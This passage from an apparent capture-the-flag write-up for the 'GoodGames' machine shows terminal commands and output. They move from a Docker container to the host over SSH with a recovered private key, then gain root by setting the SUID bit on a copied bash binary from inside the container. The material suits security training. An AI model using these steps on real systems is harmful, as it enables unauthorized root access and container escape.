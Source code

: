 #### Breakout to Docker host using generated SSH private key
```
root@3a453ab39d3d:/backend# ssh augustus@172.19.0.1 -i /home/augustus/.ssh/id_rsa
<SNIP>
augustus@GoodGames:~$ id
uid=1000(augustus) gid=1000(augustus) groups=1000(augustus)
```

### Escalate to `root` user using root shell with SUID flag set from within Docker container

#### Prepare root shell by coping `/bin/bash`
```
augustus@GoodGames:~$ cp /bin/bash root_shell
augustus@GoodGames:~$ ls -l root_shell
-rwxr-xr-x 1 augustus augustus 1234376 Oct 22 15:51 root_shell
```

#### Change `root_shell` owner to `root:root` and set SUID flag from Docker container
```
root@3a453ab39d3d:/backend# chown root:root /home/augustus/root_shell && chmod +s /home/augustus/root_shell
```

#### Spawn root shell from Docker host
```
augustus@GoodGames:~$ ./root_shell -p
root_shell-5.1# id
uid=1000(augustus) gid=1000(augustus) euid=0(root) egid=0(root) groups=0(root),1000(augustus)
```
